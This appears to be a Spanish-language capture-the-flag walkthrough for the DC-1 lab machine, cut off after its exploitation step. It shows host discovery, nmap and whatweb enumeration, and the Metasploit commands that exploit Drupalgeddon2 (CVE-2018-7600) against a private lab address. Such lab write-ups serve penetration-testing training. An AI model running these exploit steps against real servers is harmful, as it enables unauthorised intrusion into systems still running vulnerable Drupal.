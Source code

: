    ![imagen 2](https://github.com/user-attachments/assets/6795f97f-dd1b-401e-8804-1af490084cdc)

3. Escanear la red para detectar la IP de DC-1:
   ```
   sudo netdiscover -r 10.0.2.0/24
   ```
   ![imagen 3](https://github.com/user-attachments/assets/277793a5-f4f3-4c75-8ebf-cabad90a7552)
   
   ![imagen 4](https://github.com/user-attachments/assets/0aca0772-6c4f-47ca-9788-d970e2cf5e96)

4. Comprobamos que la máquina es accesible con `ping`:
   ```
   ping 10.0.2.5
   ```
   ![imagen 5](https://github.com/user-attachments/assets/ccb60033-431d-4424-94e2-6d428ec5316b)

---


## Escaneo y enumeración de puertos.
Ejecutaremos `nmap` para escanear puertos abiertos y detectar los servicios en ejecución:
```
nmap -sC -sV -A 10.0.2.5
```
![imagen 6](https://github.com/user-attachments/assets/56d94af6-5e79-454a-a96f-d4cdc2e82c4c)


Identificamos que en el puerto **80** está corriendo **Drupal**. Para confirmar la versión, usamos `whatweb`:
```
whatweb 10.0.2.5
```
![imagen 7](https://github.com/user-attachments/assets/71b0a25e-3201-4019-a0ec-4e4f7bfbfb6d)

![imagen 8](https://github.com/user-attachments/assets/35b5771e-a500-442e-b843-b507d7bdfe61)


Al buscar vulnerabilidades en Google o usar `searchsploit`, encontramos **Drupalgeddon2 (CVE-2018-7600)** como una vulnerabilidad crítica.

---


## Explotación con Metasploit
Usaremos `metasploit` para explotar la vulnerabilidad de Drupal.
```
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts 10.0.2.5
exploit
```
![imagen 9](https://github.com/user-attachments/assets/26c75737-0dd2-4389-a870-9b180b9a51b9)
